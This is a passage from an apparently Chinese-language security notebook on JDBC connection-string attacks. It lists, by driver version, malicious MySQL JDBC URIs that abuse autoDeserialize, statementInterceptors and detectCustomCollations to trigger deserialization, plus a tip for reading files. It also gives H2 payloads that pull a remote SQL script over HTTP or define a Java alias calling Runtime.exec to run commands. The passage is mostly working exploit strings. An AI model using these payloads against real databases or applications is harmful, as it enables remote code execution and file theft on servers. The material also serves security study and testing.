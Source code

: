 ##### 6.x

属性名不同，变更为 `statementInterceptors`

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

##### 5.1.11 - 5.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
```

> `5.1.10` 及以下的 `5.1.X` 版本：同上，但是需要连接后执行查询。

另外由于不同版本 jdbc 扩展参数可能存在差异，工具中也给出了不同版本下的利用 URI

Ps: 如果是读文件需要加 maxAllowedPacket=655360

##### 5.0.x

没有 `ServerStatusDiffInterceptor`，不可利用。

#### `detectCustomCollations` 触发

##### 5.1.41 - 5.1.x

不可用

##### 5.1.29 - 5.1.40

```java
jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true
```

##### 5.1.19 - 5.1.28

```
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true
```

##### 5.1.x - 5.1.18

不可用

##### 5.0.x

不可用

## JDBC 攻击-其他数据库

### H2

```
# 远程拉取sql脚本
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8089/poc.sql'

poc.sql: CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "run";}';CALL EXEC ('open -a Calculator.app')

# 多语句
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"trganda\"\\;}'\\;CALL EXEC ('open -a Calculator.app')

# Groovy
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'"

```